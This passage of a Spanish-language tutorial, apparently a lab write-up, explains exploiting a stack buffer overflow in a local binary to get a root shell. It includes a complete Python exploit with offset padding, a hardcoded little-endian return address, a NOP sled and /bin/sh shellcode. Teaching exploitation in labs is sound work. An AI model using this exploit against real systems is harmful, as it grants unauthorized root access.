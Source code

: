 Debemos ejecutar directamente el binario que creamos `(buff)` con nuestro payload para obtener nuestra shell como `root`.

![Segmentation Fault](/assets/images/rootShell.png)
	
## Recomendación

En la imagen anterior podemos observar que una vez ejecutamos el binario junto con nuestro payload, recibimos nuestra shell como root, pero también podemos ver en la parte inferior que pasandole un script en python, obtenemos el mismo resultado, de hecho este script lo que nos permite es evitarnos pasar manualmente nuestra dirección de memoria a formato **Little-Endian**, ya que esto puede ocasionar errores.

Para evitar eso el script utiliza la libreria `pack` que permite pasar la dirección de memoria a formato **Little-Endian** de forma automática.

```python
#!/usr/bin/python

from struct import pack

if __name__=='__main__':

        offset = 76
        junk = "A"*offset
        EIP = pack("<I", 0xbfffefa0)
        nops = "\x90"*100
        shell= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = junk + EIP + nops + shell

print payload
```
